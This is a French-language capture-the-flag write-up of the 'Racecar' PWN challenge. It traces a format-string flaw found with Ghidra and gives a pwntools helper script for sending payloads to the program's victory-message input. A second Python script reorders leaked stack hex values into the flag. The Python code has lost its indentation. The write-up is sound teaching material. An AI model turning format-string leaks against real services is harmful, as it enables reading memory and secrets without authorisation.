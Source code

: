 ```yaml
---
id: Racecar
created_date: 19/06/2023
updated_date: 19/06/2023
type: note
---
```


#  Racecar
- **🏷️Tags** :  #06-2023 #buffer #overflow #stack #GDB #reverse #PWN 

### Observation 

Comme pour tout challenge PWN première chose à faire est de regarder quel type de fichier nous est fournie

![[Pasted image 20230619160421.png]]
 - on a donc un binaire que l'on peut exécuter donc exécutons le :
 ![[Pasted image 20230619160708.png]]
 
>[!annotation]
>Le programme se présente de la manière suivante, nous devons dans un premier temps choisir un nom, surnom pour ensuite choisir 2 options les informations sur les voitures et enfin le choix de voiture et de course.
>
>On observe que si l'on choisit la voiture 1 et la course 2 ou bien la voiture 2 et la course 1, alors nous gagnons la course et avons par la suite la possibilité de rentrer un message de victoire.


### Dé-compiler 

- On peut maintenant rentrer dans le vif du sujet et décortiquer le binaire plus en profondeur. Pour cela on utilise le logiciel Ghidra.

- Une fois le fichier ouvert dans le logiciel, on va dans un premier temps regarder les fonctions du programme et plus spécifiquement la fonction **"main()"**.

![[Pasted image 20230619161940.png]]


- On observe donc plusieurs appelle de fonctions ici. En en jetant un coup d’œil rapide on observe une fonction pourrait potentiellement nous intéresser.

![[Pasted image 20230619162234.png]]

>On a ici la fonction **"car_menu()"**, on observe plusieurs choses ici, dans un premier temps on voit apparaître la mention de flag, et dans un second temps on peut observer l'input de victoire à rentrer en cas de victoire.

le **"printf(\_format)"** est une faille connue qui va nous permettre d’accéder à la stack.

>[!Exemple]
> ![[Pasted image 20230619162625.png]]

>[!annotation]
>On observe bien la réponse positif de l'exploit. On a donc peut-être moyen de se balader dans la stack et de retrouver l'adresse du flag et par la même occasions retrouver le flag.

> On va ici se crée un petit script python qui va nous permettre de gagner du temps sur l'exploitation de la faille.


```python
#!/usr/bin/env python3

from pwn import *
from pwn import process
  
def exploit(payload: str):

binary_path='./racecar'
conn = process(binary_path)
conn.sendlineafter(b'Name', b'gabi')
conn.sendlineafter(b'Nickname', b'gabi')
conn.sendlineafter(b'selection', b'2')
conn.sendlineafter(b'car', b'1')
conn.sendlineafter(b'Circuit', b'2')
conn.sendlineafter(b'victory?', bytes(payload, encoding='utf-8'))
conn.recv()
print(conn.recv().decode('utf-8'))
conn.close()  

if __name__ == '__main__':
while True:
exploit(input('Enter payload: '))
```

Cela va nous permettre de tester plus facilement les payloads à injecter dans l'input.

- Avant d’exécuter notre programme nous allons crées un fichier **flag.txt** dans lequel nous allons écrire **"AAA"** ce qui nous donnera quelques chose come 414141 en hexa, ce qui sera plus simple à repérer. 

![[Pasted image 20230619163815.png]]

>[!Resultat]
>On a donc bien une réponse de notre payload injecté, et de plus nous observons l'adresse 0x41414141 à la 12èm position nous avons donc la position de la première adresses du flag. nous pouvons tester cela directement sur le serveur. 

- on récupère donc cette output sur le serveur.

![[Pasted image 20230620121725.png]]


> En passant par le site dcode.com on peut bien voir qu'on récupère bien le flag avec le format **"HTB{}"** que l'on connait.

![[Pasted image 20230620121844.png]]

- Il nous faut maintenant le récupérer dans le bonne ordre. Pour cela on va utiliser un petit script python qui va nous faciliter la tache.c

![[Pasted image 20230620122303.png]]


```python
#!/usr/bin/env python3

import re
raw_flag = input("Enter the raw data: ")
raw_flag = raw_flag.split()[::-1]

for i in range(len(raw_flag)):
	raw_flag[i] = re.findall('..', raw_flag[i])
	print(raw_flag[i])

flag = []
for chars in raw_flag:
	word = ""
	for char in chars[::-1]:
		if char != '0x':
			word += chr(int(char, 16))
	flag.append(word)

flag.reverse()

print(''.join(flag))

```

>[!Success]
>on récupère donc l'output suivant avec le flag dans le bon ordre:
>![[Pasted image 20230620122520.png]]


